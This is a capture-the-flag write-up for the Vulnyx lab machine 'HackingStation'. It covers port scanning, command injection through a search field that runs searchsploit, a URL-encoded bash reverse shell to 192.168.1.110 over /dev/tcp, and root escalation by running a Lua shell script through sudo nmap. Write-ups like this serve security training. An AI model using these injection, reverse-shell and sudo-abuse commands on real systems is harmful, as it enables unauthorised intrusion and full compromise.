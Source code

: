 ```yaml
---
layout: single 
title: HackingStation - Vulnyx
date: 2024-06-16
classes: wide
header:
  teaser: /assets/images/vulnyx-writeup-hackingstation/logo.png
  teaser_home_page: true
  icon: /assets/images/vulnyx.png
categories:
  - Vulnyx
  - Low
tags:
  - OS Command Execution
  - Abusing SUID Binaries
---
```


![logo](/assets/images/vulnyx-writeup-hackingstation/logo.png)

## Port Scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 192.168.1.119

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:B0:92:23 (VMware)
```

## Service Discovery

```bash
sudo nmap -sV -sC -p 80 -v 192.168.1.119

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:B0:92:23 (VMware)
```

## Method 1

We start by checking the HTTP port 80. We can see the following page:
![index](/assets/images/vulnyx-writeup-hackingstation/index.png)

Let's enter any word in the search bar to check its behavior:

![test](/assets/images/vulnyx-writeup-hackingstation/test.png)

As we can see in the image, it uses the searchsploit command to search for exploits with the word we entered. This means that the server is executing console commands to perform our search.

If we try to execute another command with the statement `;whoami`, we get the following result:

![whoami](/assets/images/vulnyx-writeup-hackingstation/whoami.png)

We see that our `whoami` command executes correctly, so we have **command execution**.
Let's send a reverse shell with the following URL-encoded command:

```bash
bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.1.110/8000%200%3E%261%27
```

Once we get the reverse shell, we execute the `sudo -l` command to see if there is any command that can be executed as root:

```bash
User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```

We can execute the nmap command as the root user. We can exploit this binary in the following way:

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

![root](/assets/images/vulnyx-writeup-hackingstation/root.png)
